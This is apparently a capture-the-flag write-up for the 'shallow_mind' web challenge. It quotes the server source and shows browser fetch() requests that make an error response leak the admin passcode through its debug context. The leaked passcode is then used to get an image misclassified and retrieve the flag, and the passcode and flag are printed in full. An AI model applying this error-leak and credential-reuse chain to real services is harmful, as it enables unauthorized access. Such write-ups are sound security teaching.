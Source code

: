 # shallow_mind

## by *kaipan*

### Challenge Premise

We got a website that uses an advanced AI algorithm to determine whether an image is red or green with state of the art machine learning technology and statistical methods never seen before. We are given the source code and we need to analyze it in order to get the flag.

### Source Code Analysis Pain

Honestly my brain no workie too good and I can only roughly understand the source code with my three braincells, so I'll go over the important parts. The important stuff is in **server.py**. Here I have highlighted some important snippets:

```python
# Test auth route
@app.post("/authtest")
def authTest(request: Request) -> HTTPResponse:
  # TODO: delete route, it's useless
  body = request.json
  if 'admin' in body:
    if hash(body['admin']) == hash(app.config.PASSCODE):
      return text('yeah boii')
  # only return dev logic if we're verified dev
  assert body['devcode'] == app.config.DEVCODE
  raise ServerError(f"{body['admin']} is incorrect", status_code=401,quiet=False,context=app_context)
```

This is the test authentication route, we can use this to determine the correct admin credentials which will be important for when we actually classify our own images using the AI system. We can see that it checks for an "admin" key in the request body, and we make sure its value matches a given passcode that we don't know. Of course, we don't know the passcode as of yet, but we can figure it out using the next section of the snippet. It checks the request for a "devcode" key and makes sure its value matches the configured devcode of the website. If we pass this assert, but get the password wrong, then we get a server error returned to us as a browser that we can further analyze to potentially figure out the passcode.

We actually know the value of the devcode, since it was set in the previous lines, specifically this line:

```python
# TODO: add devcode
app.config.DEVCODE = None
```

So when we make a POST request (as indicated by `@app.post` in the snippet), we need to just guess the password, and then pass in a value that is equivalent to `None` as the value for the value of the "devcode" property. I did this using the built-in browser console and the following code (`null` is used to represent `None` in this case):

``fetch('/authtest', {method:'POST', body:JSON.stringify({"admin": "password", "devcode": null})})``

We get the following as a response:

````javascript
⚠️ 401 — Unauthorized
=====================
password is incorrect


Context
    _FALLBACK_ERROR_FORMAT: "<sanic.helpers.Default object at 0x7fa7346ed730>"
    ACCESS_LOG: "True"
    AUTO_EXTEND: "True"
    AUTO_RELOAD: "False"
    EVENT_AUTOREGISTER: "False"
    FORWARDED_FOR_HEADER: "X-Forwarded-For"
    FORWARDED_SECRET: "None"
    GRACEFUL_SHUTDOWN_TIMEOUT: "15.0"
    KEEP_ALIVE_TIMEOUT: "5"
    KEEP_ALIVE: "True"
    MOTD: "True"
    MOTD_DISPLAY: "{}"
    NOISY_EXCEPTIONS: "False"
    PROXIES_COUNT: "None"
    REAL_IP_HEADER: "None"
    REGISTER: "True"
    REQUEST_BUFFER_SIZE: "65536"
    REQUEST_MAX_HEADER_SIZE: "8192"
    REQUEST_ID_HEADER: "X-Request-ID"
    REQUEST_MAX_SIZE: "100000000"
    REQUEST_TIMEOUT: "60"
    RESPONSE_TIMEOUT: "60"
    TOUCHUP: "True"
    USE_UVLOOP: "<sanic.helpers.Default object at 0x7fa7346ed730>"
    WEBSOCKET_MAX_SIZE: "1048576"
    WEBSOCKET_PING_INTERVAL: "20"
    WEBSOCKET_PING_TIMEOUT: "20"
    _converters: "[<class 'str'>, <function str_to_bool at 0x7fa733a37d30>, <class 'float'>, <class 'int'>]"
    _LOGO: ""
    PASSCODE: "yxB5X7{G(<,:;kJR"
    _init: "True"
    DEBUG: "False"
````

We can see that the passcode is actually returned to us and it is **yxB5X7{G(<,:;kJR**. Now we have the correct passcode for the value of the "admin" key.

Now we get onto the classification part; here is the respective code:

```python
@app.post("/classify")
async def classify(request: Request) -> HTTPResponse:
  body = request.json
  # simply an innocent optimization, not a lie--we'd never do that!
  if 'option' in body:
    return text(PRESETS[int(body['option'])], 200)
  # ok, now the actual algorithm
  if 'admin' in body:
    if body['admin'] == app.config.PASSCODE:
      if 'pic' in body:
        loop = asyncio.get_event_loop()
        answer = await loop.run_in_executor(None, BigBadMLCheck, body['pic'])
        if answer == 'flag':
          return text(app.config.FLAG)
        return text(answer)
      return text('ERR: no body found.', 400)
  return text('no no no, you can\'t access this API route.', 400)
```

The second half is the important part. It checks for the "admin" key, and then whether the value matches the passcode, which we found earlier with the test auth route, before getting a picture from the "pic" key and passing it to the classification algorithm. If the algorithm returns "flag", then we get a response back with the actual flag file's flag.

The actual classification algorithm code is not too important. The only things you need to know is that the AI classifies the image using its own training data and also confirms the actual colors (by pixels) using some third party library that I don't care to remember. If the actual color is different from the predicted colors (ex. actual color should be green but AI predicts red or vice versa), then the code returns "flag" which is used in the classify route to pass the return value check and give us the actual flag as a response from the route.

Fortunately, the AI algorithm is somehow worse then my own brain, which truly makes it a marvel of engineering as it can barely tell reds and greens apart. Even I could do that smh. So all you need to do is find an image with complex colors (images that aren't straight up just red or green or shades of red or green or predominantly one color or the other) or colors that aren't red and green at all and the algorithm will freak out and predict the wrong thing and give us the flag. The algorithm takes an image URL, which will be the value of the "pic" key that we will use in the POST request to the classify route.

I used the following code to cheese the AI, but you can use whatever image URL you want that actually works as long as you have the admin credentials in there (you no longer need the devcode thingy):

`fetch('/classify', {method:'POST', body:JSON.stringify({"admin": "yxB5X7{G(<,:;kJR", "pic": "https://i.imgur.com/QzzRkt2h.jpg"})})`

We check the response using the network tool within our built-in browser tools to view the response which contains the flag.

The reason this works is because the AI was trained on a garbage small dataset so it isn't very good at telling colors apart I guess, which is kinda tragic lmao.

### Flag

`osu{1_d0nt_kn0w_h0w_2_tr41n_nu3r4l_n3t5}`